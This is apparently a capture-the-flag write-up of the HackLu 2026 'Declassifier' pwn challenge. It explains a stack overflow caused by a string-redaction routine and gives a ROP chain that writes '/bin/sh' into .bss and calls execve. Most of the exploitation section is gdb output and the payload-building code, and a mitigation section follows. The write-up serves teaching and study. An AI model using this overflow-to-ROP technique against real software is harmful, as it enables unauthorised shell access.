

# HackLu 2026 - Declassifier (Pwn)
**Author:** Louis Bernard
**Date:** 2026-10-25
**Category:** Pwn
**Target Architecture:** x86-64 / Linux
**Vulnerability Type:** Buffer overflow
**Impact:** Execution of the `execve()` syscall to open a shell


#### 1.Reconnaissance
To start with, we are given a .c file and its corresponding binary. The program takes as input a string of max length 512, and then calls the `redact()` function, which redacts the input string by replacing all occurrences of the `re` string 'flux' with the `replace` string '[REDACTED]'. 

```
    memcpy(&buf [off+strlen(replace)], &buf[off+len], remaining);
    memcpy(&buf [off], replace, strlen(replace));
```

This can cause a buffer overflow if the length of the new buffer with the redacted parts is greater than 512. 

#### 2.Exploitation
I first started by identifying where the return instruction pointer was so that I could overwrite it. As the buffer is declared in the function `main()`, and not in `redact()`, we have to overwrite the rip of `main()`, since the `redact()` rip is located at a lower address in the stack.

By using gdb and inspecting the stack, we can see that the return instruction pointer is stored at &buf + 0x218. 

```
pwndbg> p &buf
$1 = (char (*)[512]) 0x7fffffffd630
pwndbg> info frame
 [...]
 Saved registers:
  rbp at 0x7fffffffd840, rip at 0x7fffffffd848
```

Using ghidra to inspect the binary, I couldn't find any hidden methods that could have opened a shell. `checksec` also revealed that the stack isn't executable (NX Enabled), so I had to find another way to open a shell. 

<p align="center">
  
</p>

I first tried to find a `/sh\x00` or `/bin/sh\x00` string in the binary. I found a `/sh\x00` string, but when I later executed it, it didn't work because the function expected an absolute path or a relative path in the directory of the machine. I decided to store the `/bin/sh\x00` string directly in the .bss section so that I could use it later to open a shell, as the PIE isn't enabled and it has RW permissions.

I used `info files` to find the .bss section address, and then I looked for different gadgets to write at that address. I first found a `mov qword ptr [rsi], rax; ret` gadget in the binary. 

I then had to find pop RSI and RAX gadgets. I looked for the byte sequence '58 c3' in the binary for the `pop rax; ret` which I found, then for '5e c3' for the `pop rsi; ret`, which appeared only once in a non executable part of the memory. I had to find the instructions with some collateral instructions in the middle, which I did after looking through the different occurrences of the '5e' byte. The sequence of instructions for this gadget is `pop rsi; pop r15; pop rbp; ret`.

The final step consisted in finding a way to execute the shell. My idea was to call the `execve` syscall with the `syscall` instruction. To do so, I loaded 59 (the number corresponding to the execve syscall in x86-64 architecture) in RAX, the address of the '/bin/sh\x00' string in RDI, and 0 in RSI. As the RDX register is already 0 when you arrive at the syscall instruction, it is not necessary to load 0 in it.

Inspecting the binary, I found a `syscall` instruction (bytes '0f 05') in the memory. Then I tried to look for gadgets to pop RDI, since I already had them for RAX and RSI. Similarly, for RDI, I found one with some additional instructions between the `pop rdi` and the `ret` (`pop rdi; pop rbp; ret`).


**Building the payload**

As the rip of `main()` is 536 (0x218) bytes away from the start of `buf`, I started by appending the string 'flux' 53 times and 6 characters, since the replacement string [REDACTED] has a length of 10 (53 * 10 + 6 = 536). This adds up to a total of 53 * 4 + 6 = 218 characters initially, which is below 512 and leaves us enough space to write our addresses and values we want to use in the stack. 

By appending the different addresses of the gadgets and the desired values, the payload ends up looking like this : 
```
payload = b"a" * 6 + b"flux"*53

#Store our bin/sh string in the .bss section
#Load the string in RAX
payload += p64(pop_rax_addr)
payload += p64(binsh_str)

#Load the bss section address in RSI
payload += p64(pop_rsi_addr)
payload += p64(bss_start_addr)
#Consume the next two pop instructions
payload += p64(0x0)
payload += p64(0x0)

#Store the value contained in RAX into memory at the address pointed to by RSI
payload += p64(mov_addr)

#Prepare arguments for the syscall
#Load the execve syscall number (59) in RAX
payload += p64(pop_rax_addr)
payload += p64(59)

#Load the address of our string in RDI
payload += p64(pop_rdi_addr)
payload += p64(bss_start_addr)
#Consume the next pop instruction
payload += p64(0x0)

#Load 0 in RSI
payload += p64(pop_rsi_addr)
payload += p64(0x0)
#Consume r15 and rbp registers
payload += p64(0x0)
payload += p64(0x0)

#Execute the syscall instruction
payload += p64(syscall_addr)

```

Sending this payload to the server, and getting back in interactive mode, we get access to the server's shell, in which we can cat the flag at the root.

#### 3. Mitigation 
This vulnerability could be easily patched by performing a `realloc()` when replacing the string by '[REDACTED]'. The realloc would allocate enough space for the buffer and hence, avoid any potential overflows. To do that, we would need to dynamically allocate the buffer with `malloc()`. Otherwise, we could perform a bounds check and reject the input if the result is too long, or truncate it.

#### 4. Conclusion
I found this challenge very interesting because it was the first time I had to jump around the program as much with assembly gadgets. It was also the first time I had to write data in the .bss section to store the shell absolute path. 

#### 5. References
- Syscall Entry - Linux Kernel Internals. (s. d.). https://kernel-internals.org/arch/x86/syscall-entry/
- execve(2) — manpages-dev — Debian unstable — Debian Manpages. (s. d.). https://manpages.debian.org/unstable/manpages-dev/execve.2.en.html
- Valsorda, F. (s. d.). Searchable Linux Syscall Table for x86_64. https://filippo.io/linux-syscall-table/
- Linux Exploitation : x64 shellcode. (s. d.). MCSI Library. https://library.mosse-institute.com/articles/2022/06/linux-exploitation-x64-shellcode/linux-exploitation-x64-shellcode.html
